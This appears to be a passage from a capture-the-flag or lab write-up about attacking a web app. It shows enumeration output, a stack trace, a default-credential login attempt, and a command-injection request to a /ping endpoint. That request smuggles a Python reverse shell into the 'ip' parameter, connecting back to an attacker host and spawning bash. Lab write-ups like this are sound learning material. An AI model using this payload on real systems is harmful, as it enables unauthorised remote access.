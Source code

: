 ```jsx
js,<http://10.10.43.71:31331/js,http://10.10.43.71:31331/js/,2366,301,316,20,10,text/html>; charset=iso-8859-1,178.764222ms,,2ed5d93e
robots.txt,<http://10.10.43.71:31331/robots.txt,,3594,200,53,4,6,text/plain,180.054842ms,,2ed5de0a>
server-status,<http://10.10.43.71:31331/server-status,,3736,403,302,22,12,text/html>; charset=iso-8859-1,170.891152ms,,2ed5de98
```

Then we checked out the `/ping` endpoint and found out we could RCE via Burp, then we tried some commands like `ls` and `pwd` via [https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list) but didn’t RCE as the the low hanging fruit was right there after a few basic commands

- [http://10.10.43.71:8081/ping](http://10.10.43.71:8081/ping)
    
    ```jsx
    TypeError: Cannot read property 'replace' of undefined
        at app.get (/home/www/api/index.js:45:29)
        at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
        at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
        at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
        at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
        at /home/www/api/node_modules/express/lib/router/index.js:281:22
        at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
        at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
        at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
        at /home/www/api/node_modules/cors/lib/index.js:224:17
    ```
    
- [http://10.10.43.71:8081/auth?login=admin&password=admin](http://10.10.43.71:8081/auth?login=admin&password=admin)
    
    Invalid credentials
    
    ```jsx
    GET /auth?login=admin&password=admin HTTP/1.1
    Host: 10.10.43.71:8081
    Accept-Language: en-US,en;q=0.9
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: <http://10.10.43.71:31331/>
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    
    ```
    
- some payload
    
    ```jsx
    GET /ping?ip=`;python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.17.19.181",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'` HTTP/1.1
    Host: 10.10.43.71:8081
    Accept-Language: en-US,en;q=0.9
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Accept: */*
    Origin: <http://10.10.43.71:31331>
    Referer: <http://10.10.43.71:31331/>
    Accept-Encoding: gzip, deflate, br
    If-None-Match: W/"103-g+tcKAgZoph7CeOD6kJXoXWFEqc"
    Connection: keep-alive
    